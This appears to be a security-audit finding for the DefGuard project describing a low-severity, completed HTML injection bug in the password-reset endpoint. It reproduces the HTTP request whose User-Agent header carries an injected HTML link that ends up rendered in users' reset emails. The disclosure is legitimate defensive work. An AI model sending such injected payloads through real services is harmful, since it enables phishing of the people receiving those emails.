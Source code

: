 ```yaml
---
title: "DG25-16: HTML Injection - password reset"
severity: Low
cvss_score: 3.5
cvss_string: "/AV:N/AC:L/PR:L/UI:R/S:U/C:L/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1545
status: Completed
---
```



### Technical details

1.  Data from User-Agent header is not being sanitized. Malicious actor
    may send a reset link to any DefGuard user - with HTML content which
    will be rendered in the user\'s mailboxes.

**Request:**\
\
**POST** /api/v1/password-reset/request HTTP/2\
**Host:** defguard-enroll.dvpnsec.net\
**User-Agent:** browser \<h1\>\<a href=\"//isec.pl\"\>CLICK
HERE\</a\>\</h1\>\
**Content-Type:** application/json\
**Content-Length:** 40\
\
{\"email\":\"phtest2+fdsfdszxczxc@isec.pl\"}\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Date:** Fri, 08 Aug 2025 09:56:26 GMT\
**Server:** Caddy\
**Content-Length:** 0

1.  \<h1\>\<a href=\"//isec.pl\"\>CLICK HERE\</a\>\</h1\> is being
    rendered.

![](/images/pentest/DG25/img5.png)
